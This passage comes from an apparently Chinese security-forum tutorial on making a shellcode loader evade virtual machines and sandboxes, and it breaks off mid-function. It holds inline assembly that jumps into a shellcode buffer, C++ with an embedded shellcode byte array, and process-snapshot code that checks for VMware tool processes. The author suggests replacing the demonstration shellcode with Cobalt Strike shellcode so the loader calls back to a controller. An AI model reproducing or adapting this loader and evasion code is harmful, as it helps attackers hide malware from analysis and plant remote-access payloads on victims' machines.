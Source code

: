 ```c++
    {
        __asm{
          lea eax, shellcode;
          push eax;
          ret;
    }

    }
    return 0;
}
```

实现效果如下所示

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-b8fbab9b9262728c0a6dc4f7a61e3551e9069395.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-b8fbab9b9262728c0a6dc4f7a61e3551e9069395.png)

这里思考了一下，弄个弹窗出来过于明显，那么也可以直接exit()退出我们写的程序，或者直接把shellcode换成cs的直接回连上线

根据进程信息
------

这里在查看几个虚拟机后发现vm的默认进程有`vmtoolsd.exe`和`vmacthlp.exe`，这里直接判断进程是否存在即可起到反调试的效果

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-36f6ce5c24c0b5edb66708aca598e171a7de1fb3.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-36f6ce5c24c0b5edb66708aca598e171a7de1fb3.png)

通过`CreateToolhelp32Snapshot`这个API来拍摄进程快照，再比对`PROCESSENTRY32`中的`szExeFile`与进程名是否相同即可

实现代码如下

```c++
#include "stdafx.h"
#include <Windows.h>
#include "shlwapi.h"
#pragma comment(lib, "shlwapi.lib")

char shellcode[] =
    "\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
    "\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
    "\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
    "\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
    "\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
    "\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
    "\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
    "\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6c\x8b\xc4\x53\x50\x50"
    "\x53\xff\x57\xfc\x53\xff\x57\xf8";

{
    DWORD ret = 0;  

    HWND hListModules;

    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if (hSnapshot == INVALID_HANDLE_VALUE)
    {
        return FALSE;
    }

    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(pe32); //初始化空间
    BOOL pr = Process32First(hSnapshot, &pe32); //快照句柄&指向PROCESSENTRY32的指针  
```